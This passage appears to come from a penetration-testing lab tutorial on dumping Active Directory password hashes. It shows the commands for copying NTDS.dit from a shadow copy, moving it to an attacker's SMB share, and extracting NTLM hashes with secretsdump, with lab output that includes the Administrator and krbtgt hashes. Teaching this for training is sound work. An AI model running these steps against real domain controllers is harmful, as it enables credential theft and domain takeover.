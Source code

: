 ### **Copying NTDS.dit from the VSS**

We can then copy the `NTDS.dit` file from the volume shadow copy of `C:` onto another location on the drive to prepare to move NTDS.dit to our attack host.

```powershell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

Before copying `NTDS.dit` to our attack host, we may want to use the technique we learned earlier to create an SMB share on our attack host. Feel free to go back to the `Attacking SAM, SYSTEM, and SECURITY` section to review that method if needed.

{% hint style="info" %}
**Note:** As was the case with `SAM`, the hashes stored in `NTDS.dit` are encrypted with a key stored in `SYSTEM`. In order to successfully extract the hashes, one must download both files.
{% endhint %}

### **Transferring NTDS.dit to attack host**

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```powershell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.	
```

### **Extracting hashes from NTDS.dit**

With a copy of `NTDS.dit` on our attack host, we can go ahead and dump the hashes. One way to do this is with Impacket's `secretsdump`:

```shell-session
$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
<SNIP>
```

### **A faster method: Using NetExec to capture NTDS.dit**
